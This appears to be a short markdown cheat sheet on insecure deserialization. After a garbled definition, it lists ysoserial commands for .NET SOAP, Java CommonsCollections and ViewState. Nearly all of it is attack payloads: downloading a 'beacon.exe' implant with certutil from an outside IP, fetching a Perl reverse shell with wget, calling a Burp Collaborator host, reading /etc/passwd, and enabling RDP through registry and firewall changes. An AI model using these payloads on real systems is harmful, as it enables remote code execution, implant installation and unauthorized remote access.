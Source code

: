 #  Insecure deserialization Vulnerability

Any Insecure deserialization vulnerability may occur when serialized object are allowed to alter.as a result, an unauthorized remote user could be able to execute 
arbitrary command and gaining u access to nauthorized access to  in the context of applicaiton server.Serialized objects are generally sent across is base64 format used in web applications.technically Serialization refers to a process of turning into  an object into a format on the other hand, deserialization, turning back to serialized data.

# SOAP NET Deserialization
```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ipconfig" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c hostname" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.txe" -o raw
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
"
```
# Deserialization 
```

java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget sdfsfdoztjxibkocen698fskck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'wget http://192.168.100.199:1010/reverse-shell.pl -O /tmp/shell.pl' > perl-reverse-shell.pl.bin
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'cat /etc/passwd' > passwd.bin
```
# ViewState Deserialization 
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.exe"
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
"
```

